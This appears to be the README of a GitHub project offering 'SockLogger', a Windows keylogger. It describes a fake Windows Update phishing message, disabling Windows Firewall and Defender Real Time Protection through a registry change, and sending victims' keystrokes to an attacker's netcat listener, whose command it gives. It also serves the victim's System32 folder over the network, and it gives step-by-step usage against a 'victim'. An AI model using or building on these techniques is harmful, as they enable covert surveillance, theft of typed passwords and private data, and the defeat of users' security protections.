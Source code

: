 # SockLogger
A NICE-creative way to evade 'Real Time Protection' and 'Windows Firewall' on windows OS, and obtain victim's key-strokes.
You can obfuscate the code and do it whatever you wish. using 'nc' on remote machine while python on the background, provide you with the victim's keystorkes including directory listing on the system32 as the script runs with administrator privilege. While i was looking for a way to make a simple keylogger, i tought it would be interesting to make a keylogger which will executed upon a running .ps1(PowerShell Script) with a fake message saying something about critical problems that must be handle right now using Windows Update. Started to make a script that will make 3 things. anyway, it must! first run as Administrator privilege.
#### What It DoEs?: ####
1. Turn off the Windows Firewall Real Time Protection.
2. enject a malicious DWORD on the registry which will make the real time protection going down. <b>( Be Aware!! )</b>
3. Disable the real time protection.
4. When the the pp.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].
5. Open a python web server for "C:\Windows\System32" if it worth something ...

![2](https://github.com/Adkali/SockLogger/assets/90532971/a94c22bd-a881-444e-853d-a45fad7f2328)


# Usage
* I made a test on my local windows 11 x64-Based PC machine [ VICTIM ].
<pre>
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 2, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]
</pre>

![3](https://github.com/Adkali/SockLogger/assets/90532971/b26cc2b3-a2cd-4e22-b6a9-ce7a8753dab6)

![4](https://github.com/Adkali/SockLogger/assets/90532971/8e6f6c3c-7c37-4339-ac30-a9739386bd32)


# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it.
  
<h2>Note</h2><p>Change Machine IP in the .ps1/pyw script.</p>
in my case, the .ps1 is 10.0.0.40 on port 80, and the listener was on port 8080. please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory

# Requirements
Victim must have python installed on computer(python3). When script gets executed, it will install using pip the 'pynput' package.
